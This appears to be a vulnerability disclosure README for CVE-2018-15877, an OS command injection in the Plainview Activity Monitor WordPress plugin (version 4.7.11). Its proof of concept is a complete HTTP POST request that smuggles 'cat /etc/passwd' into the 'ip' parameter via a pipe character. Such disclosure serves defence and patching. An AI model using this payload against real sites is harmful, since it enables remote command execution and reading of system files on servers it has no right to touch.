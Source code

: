 # RCE with [```Plainview Activity Monitor```](https://fr.wordpress.org/plugins/plainview-activity-monitor/) WordPress plugin  
- Affected: ```Plainview Activity Monitor``` WordPress plugin.
- Version: `4.7.11` and possibly prior
- Privileges required: yes (but found CSRF & XSS can be combined - see [poc.html](https://github.com/aas-n/CVE/blob/master/CVE-2018-15877/poc.html))
- CVE-ID: ```CVE-2018-15877```
- Author:
  - [Lydéric Lefebvre](https://www.linkedin.com/in/lydericlefebvre/)

## Index

| Title        | Description   |
| ------------- |:-------------|
| [Description](#description)  | Description |
| [PoC](#poc) | PoC |

## Description

Plainview Activity Monitor is vulnerable to OS commanding which allows an attacker to remotely execute commands on underlying system. ```ip``` parameter in ```page=plainview_activity_monitor&tab=activity_tools``` is vulnerable.

![oscommanding](https://image.noelshack.com/fichiers/2018/34/6/1535228244-oscommand.png)

## PoC
```
POST /wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://localhost:8000/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools
Content-Type: multipart/form-data; boundary=---------------------------13707449992054116824594351796
Content-Length: 311
Cookie: wordpress_70490311fe7c84acda8886406a6d884b=aas%7C1535400075%7CNJ8xAHSGtDKoNgc8tTpSZA6Dn6INW6PkzdG1IVzHX9Z%7C422290d1e6d712e3db5efb9ab4a9aa3df0631e20d5e0dce34ec84ec6f70766c8; PHPSESSID=18d2c15b8f5755104632ec1cc65c56e1; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_70490311fe7c84acda8886406a6d884b=aas%7C1535400075%7CNJ8xAHSGtDKoNgc8tTpSZA6Dn6INW6PkzdG1IVzHX9Z%7C0d8cef0facff651e3b0b7790b6c3f84dad36051b8378487acbe5bf03ebef52af; wp-settings-1=deleted; wp-settings-time-1=1535227275
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------13707449992054116824594351796
Content-Disposition: form-data; name="ip"

google.fr|cat /etc/passwd
-----------------------------13707449992054116824594351796
Content-Disposition: form-data; name="lookup"

Lookup
-----------------------------13707449992054116824594351796--
```
